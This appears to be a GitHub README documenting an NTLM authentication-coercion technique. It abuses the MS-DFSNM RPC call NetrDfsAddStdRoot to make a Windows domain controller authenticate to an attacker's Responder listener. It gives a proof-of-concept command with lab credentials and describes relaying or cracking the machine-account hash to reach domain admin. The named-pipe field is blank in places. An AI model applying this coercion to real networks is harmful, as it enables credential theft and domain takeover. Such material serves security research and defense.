# MS-DFSNM - Remote call to NetrDfsAddStdRoot (opnum 12)

## Summary

+ **Protocol**: [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

+ **Protocol UUID**: 4fc742e0-4a10-11cf-8273-00aa004ae673

+ **Protocol version**: 3.0

+ **SMB Named pipe**: ``

+ **Function name**: [`NetrDfsAddStdRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/b18ef17a-7a9c-4e22-b1bf-6a4d07e87b2d)

+ **Function operation number**: `12`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol (with uuid `4fc742e0-4a10-11cf-8273-00aa004ae673` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) and allows to call RPC functions of this protocol. We will then call the remote [`NetrDfsAddStdRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/b18ef17a-7a9c-4e22-b1bf-6a4d07e87b2d) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrDfsAddStdRoot('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrDfsAddStdRoot(
   [in, string] WCHAR* ServerName,
   [in, string] WCHAR* RootShare,
   [in, string] WCHAR* Comment,
   [in] DWORD ApiFlags
 );
```

## References

+ Documentation of protocol [MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979

+ Documentation of function `NetrDfsAddStdRoot`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/b18ef17a-7a9c-4e22-b1bf-6a4d07e87b2d
